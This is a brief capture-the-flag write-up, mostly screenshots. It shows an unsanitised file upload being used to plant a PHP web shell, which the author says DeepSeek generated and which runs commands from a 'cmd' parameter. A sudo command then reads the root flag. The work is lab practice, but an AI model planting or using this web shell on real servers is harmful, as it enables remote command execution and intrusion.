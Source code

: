 ![image](https://github.com/user-attachments/assets/4f50e8b9-a702-45f1-8d52-8ad5916663ac)> File upload exploit
> not sanitizing user input causing RCE


![image](https://github.com/user-attachments/assets/1f9d22df-172d-4644-959f-80f14288176d)
 
nice pic bro 

![image](https://github.com/user-attachments/assets/b08a92ef-7f24-4754-b68c-369cc7af8d38)
![image](https://github.com/user-attachments/assets/ee05a9d6-74ec-4687-afeb-b935cf883dfe)

Uploaded and to no surprise, we can see the image in there =)

![image](https://github.com/user-attachments/assets/ab94b8a6-c2a3-43f2-bb8d-36ccf3499a5e)
![image](https://github.com/user-attachments/assets/c66b006a-c662-423d-831d-27ef3baa94bf)

Uploaded, acessible and rendered. 

TIME TO USE CHINA'S LATEST TECHNOLOGY: DEEPSEEK

With a simple webshell it generated, we can start executing commands on their server and navigate the files

```
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

<form method="GET">
<input type="text" name="cmd" placeholder="Enter command">
<input type="submit" value="Execute">
</form>
```

![image](https://github.com/user-attachments/assets/dcc13ce5-d8c3-42e6-abce-0324f1d4021d)

```cd ../../../../; sudo cat /root/flag.txt```

By executing this command, we are able to read the flag file in the /root directory, of course, with sudo 

![image](https://github.com/user-attachments/assets/34e69ca6-3686-4c9d-b7bc-0f3802d7a0fe)

![image](https://github.com/user-attachments/assets/a1c909ff-b789-4949-a444-fcc9c0404b8d)

